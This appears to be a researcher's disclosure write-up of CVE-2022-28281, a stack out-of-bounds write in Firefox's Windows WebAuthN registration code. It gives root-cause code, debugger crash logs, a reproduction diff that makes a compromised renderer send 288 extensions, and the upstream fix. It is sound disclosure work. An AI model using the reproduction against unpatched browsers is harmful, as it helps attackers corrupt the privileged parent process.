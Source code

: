 # CVE-2022-28281: Mozilla Firefox Out of bounds write due to unexpected WebAuthN Extensions

This is a bug that can be triggered from a compromised Windows Firefox renderer process. If a compromised content process sent an unexpected number of WebAuthN Extensions in a `Register` command to the parent process, an out of bounds write would have occurred leading to memory corruption and a potentially exploitable crash.

<p align='center'>
<img src='pics/repro.gif'>
</p>

It has been assigned CVE-2022-28281, fixed in Firefox 99 and documented in [mfsa2022-13](https://www.mozilla.org/en-US/security/advisories/mfsa2022-13/#CVE-2022-28281).

## Root-cause analysis
The issue can be seen in the `WinWebAuthnManager::Register` function; in the below lines:
```c++
void WinWebAuthnManager::Register(
    PWebAuthnTransactionParent* aTransactionParent,
    const uint64_t& aTransactionId, const WebAuthnMakeCredentialInfo& aInfo) {
// ...
  WEBAUTHN_EXTENSION rgExtension[1] = {};
// ...
    for (const WebAuthnExtension& ext : extra.Extensions()) {
      MOZ_ASSERT(cExtensions <
                 (int)(sizeof(rgExtension) / sizeof(rgExtension[0])));

      if (ext.type() == WebAuthnExtension::TWebAuthnExtensionHmacSecret) {
        HmacCreateSecret =
            ext.get_WebAuthnExtensionHmacSecret().hmacCreateSecret() == true;
        if (HmacCreateSecret) {
          rgExtension[cExtensions].pwszExtensionIdentifier =
              WEBAUTHN_EXTENSIONS_IDENTIFIER_HMAC_SECRET;
          rgExtension[cExtensions].cbExtension = sizeof(BOOL);
          rgExtension[cExtensions].pvExtension = &HmacCreateSecret;
          cExtensions++;
        }
      }
```

A compromised renderer process is able to provide more than 1 extension which makes the above code corrupt adjacent stack memory. I don't believe it is possible to reach this state with plain Javascript.

Here is what a crash looks like when hitting the stack guard page (when sending a lot of extensions):

```
0:007> g
(1920.298c): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
xul!mozilla::dom::WinWebAuthnManager::Register+0x30d:
00007ffc`bd4b7d9d 4c898cd4f0010000 mov     qword ptr [rsp+rdx*8+1F0h],r9 ss:0000009d`48300000=????????????????

0:007> kp
 # Child-SP          RetAddr               Call Site
00 0000009d`482fe4c0 00007ffc`bd4b7a6d     xul!mozilla::dom::WinWebAuthnManager::Register(class mozilla::dom::PWebAuthnTransactionParent * aTransactionParent = <Value unavailable error>, unsigned int64 * aTransactionId = 0x0000009d`482fe778, class mozilla::dom::WebAuthnMakeCredentialInfo * aInfo = <Value unavailable error>)+0x30d [c:\mozilla-source\mozilla-unified\dom\webauthn\WinWebAuthnManager.cpp @ 301] 
01 0000009d`482fe710 00007ffc`bb7f1f88     xul!mozilla::dom::WebAuthnTransactionParent::RecvRequestRegister(unsigned int64 * aTransactionId = <Value unavailable error>, class mozilla::dom::WebAuthnMakeCredentialInfo * aTransactionInfo = <Value unavailable error>)+0x1d [c:\mozilla-source\mozilla-unified\dom\webauthn\WebAuthnTransactionParent.cpp @ 27] 
02 0000009d`482fe740 0000009d`482fe680     xul!mozilla::dom::PWebAuthnTransactionParent::OnMessageReceived(class IPC::Message * msg__ = 0x0000009d`482fe680)+0x1c8 [c:\mozilla-source\mozilla-unified\obj-x86_64-pc-mingw32\ipc\ipdl\PWebAuthnTransactionParent.cpp @ 257] 
```

## Reproduction information
I've verified that the issue is present in the latest available tree; here's where my tree is synchronized to:

```
$ hg log
changeset:   679353:0fae6a6b254a
bookmark:    autoland
tag:         tip
user:        Jamie Nicol <jnicol@mozilla.com>
date:        Tue Feb 15 20:26:12 2022 +0000
summary:     Bug 1755375 - Don't generate crash reports when android kills the GPU process. r=agi
```

The bug only affects Windows and doesn't need any specific hardware to reproduce.

## Reproducing the issue
- Apply the following diff to a recent Firefox checkout:
```diff
$ hg diff
diff --git a/dom/webauthn/WebAuthnManager.cpp b/dom/webauthn/WebAuthnManager.cpp
--- a/dom/webauthn/WebAuthnManager.cpp
+++ b/dom/webauthn/WebAuthnManager.cpp
@@ -367,16 +367,19 @@ already_AddRefed<Promise> WebAuthnManage

   if (!MaybeCreateBackgroundActor()) {
     promise->MaybeReject(NS_ERROR_DOM_OPERATION_ERR);
     return promise.forget();
   }

   // TODO: Add extension list building
   nsTArray<WebAuthnExtension> extensions;
+  for (size_t i = 0; i < 288; i++) {
+    extensions.AppendElement(WebAuthnExtensionHmacSecret(true));
+  }

   // <https://fidoalliance.org/specs/fido-v2.0-ps-20190130/fido-client-to-authenticator-protocol-v2.0-ps-20190130.html#sctn-hmac-secret-extension>
   if (aOptions.mExtensions.mHmacCreateSecret.WasPassed()) {
     bool hmacCreateSecret = aOptions.mExtensions.mHmacCreateSecret.Value();
     if (hmacCreateSecret) {
       extensions.AppendElement(WebAuthnExtensionHmacSecret(hmacCreateSecret));
     }
   }
```

- Rebuild and run the browser under a debugger or attach a debugger to the browser process (`windbgx -p <pid>`)
```
$ ./mach run --debug
```
- Run a local HTTP server to server trigger.html
```
$ python3 -m http.server
```
- Visit `http://localhost:8000/trigger.html`
- The browser process should have crashed with something similar than below:
```
0:007> g
(1920.298c): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
xul!mozilla::dom::WinWebAuthnManager::Register+0x30d:
00007ffc`bd4b7d9d 4c898cd4f0010000 mov     qword ptr [rsp+rdx*8+1F0h],r9 ss:0000009d`48300000=????????????????

0:007> kp
 # Child-SP          RetAddr               Call Site
00 0000009d`482fe4c0 00007ffc`bd4b7a6d     xul!mozilla::dom::WinWebAuthnManager::Register(class mozilla::dom::PWebAuthnTransactionParent * aTransactionParent = <Value unavailable error>, unsigned int64 * aTransactionId = 0x0000009d`482fe778, class mozilla::dom::WebAuthnMakeCredentialInfo * aInfo = <Value unavailable error>)+0x30d [c:\mozilla-source\mozilla-unified\dom\webauthn\WinWebAuthnManager.cpp @ 301] 
01 0000009d`482fe710 00007ffc`bb7f1f88     xul!mozilla::dom::WebAuthnTransactionParent::RecvRequestRegister(unsigned int64 * aTransactionId = <Value unavailable error>, class mozilla::dom::WebAuthnMakeCredentialInfo * aTransactionInfo = <Value unavailable error>)+0x1d [c:\mozilla-source\mozilla-unified\dom\webauthn\WebAuthnTransactionParent.cpp @ 27] 
02 0000009d`482fe740 0000009d`482fe680     xul!mozilla::dom::PWebAuthnTransactionParent::OnMessageReceived(class IPC::Message * msg__ = 0x0000009d`482fe680)+0x1c8 [c:\mozilla-source\mozilla-unified\obj-x86_64-pc-mingw32\ipc\ipdl\PWebAuthnTransactionParent.cpp @ 257] 
```

## Fix
It has been fixed with the below commit [6afb1478d46a](https://hg.mozilla.org/mozilla-central/rev/6afb1478d46a):
```diff
--- a/dom/webauthn/WinWebAuthnManager.cpp
+++ b/dom/webauthn/WinWebAuthnManager.cpp
@@ -282,20 +282,22 @@ void WinWebAuthnManager::Register(
       case AttestationConveyancePreference::None:
         winAttestation = WEBAUTHN_ATTESTATION_CONVEYANCE_PREFERENCE_NONE;
         break;
       default:
         winAttestation = WEBAUTHN_ATTESTATION_CONVEYANCE_PREFERENCE_ANY;
         break;
     }
 
+    if (extra.Extensions().Length() > (int)(sizeof(rgExtension) / sizeof(rgExtension[0]))) {
+      nsresult aError = NS_ERROR_DOM_INVALID_STATE_ERR;
+      MaybeAbortRegister(aTransactionId, aError);
+      return;
+    }
     for (const WebAuthnExtension& ext : extra.Extensions()) {
-      MOZ_ASSERT(cExtensions <
-                 (int)(sizeof(rgExtension) / sizeof(rgExtension[0])));
-
       if (ext.type() == WebAuthnExtension::TWebAuthnExtensionHmacSecret) {
         HmacCreateSecret =
             ext.get_WebAuthnExtensionHmacSecret().hmacCreateSecret() == true;
         if (HmacCreateSecret) {
           rgExtension[cExtensions].pwszExtensionIdentifier =
               WEBAUTHN_EXTENSIONS_IDENTIFIER_HMAC_SECRET;
           rgExtension[cExtensions].cbExtension = sizeof(BOOL);
           rgExtension[cExtensions].pvExtension = &HmacCreateSecret;
```

## Authors
* Axel '[0vercl0k](https://twitter.com/0vercl0k)' Souchet